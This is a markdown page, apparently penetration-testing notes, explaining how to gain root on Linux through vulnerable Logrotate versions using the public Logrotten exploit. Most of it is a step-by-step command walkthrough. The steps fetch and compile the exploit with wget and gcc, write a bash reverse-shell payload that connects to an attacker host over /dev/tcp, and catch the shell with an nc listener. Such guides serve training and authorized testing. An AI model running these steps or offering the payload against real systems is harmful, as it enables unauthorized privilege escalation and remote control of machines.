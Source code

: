 ```yaml
---
legal-banner: true
---
```


### **Understanding Logrotate**

Logrotate is a Linux utility designed to manage log files, automating tasks like rotating, compressing, and removing old logs to prevent them from consuming excessive disk space. It's typically scheduled via cron jobs and configured through files like `/etc/logrotate.conf` and service-specific configurations in `/etc/logrotate.d/`,When assessing Logrotate for potential exploits, start by identifying configurations that could be exploited:

- **Writable log files**: Check if you have write access to log files managed by Logrotate. If so, this is a strong indicator of potential exploitability.
- **Suid permissions**: Investigate whether Logrotate or any associated scripts are running with elevated privileges (e.g., as root). This could allow for privilege escalation.

### **Exploiting Logrotate Using Logrotten**

1.  Certain versions of Logrotate are known to be vulnerable To check the version, use the following command:  
    `logrotate --version`  

    ![](../../../img/Linux-Environment/99.png)

    **NOTE:** vulnerable versions: `3.8.6`, `3.11.0`, `3.15.0`, `3.18.0`
    
2.  download Logrotten from the GitHub repository.  
    `git clone https://github.com/whotwagner/logrotten.git`  
    
    ![](../../../img/Linux-Environment/100.png)

    **NOTE:** Host the script Using Python `python -m http.server 80`
    
3.  download and compiling the Logrotten exploit:
    
    ```bash
    wget http://[IP-ADRESS]:80/logrotten.c
    gcc logrotten.c -o logrotten
    ```
    
    ![](../../../img/Linux-Environment/101.png)
    
4.  Create a payload that Logrotate will execute. A common example is a bash reverse shell:  
    `echo 'bash -i >& /dev/tcp/[IP-ADRESS]/9001 0>&1' > payload`
    
5.  Set up a listener on your attacking machine, to catch the reverse shell:  
    `nc -nlvp 9001`
    
6.  Execute the exploit with the prepared payload:  
    `./logrotten -p ./payload /home/backups/access.log`  
    **NOTE:** Once Logrotate processes the payload, you should receive a shell.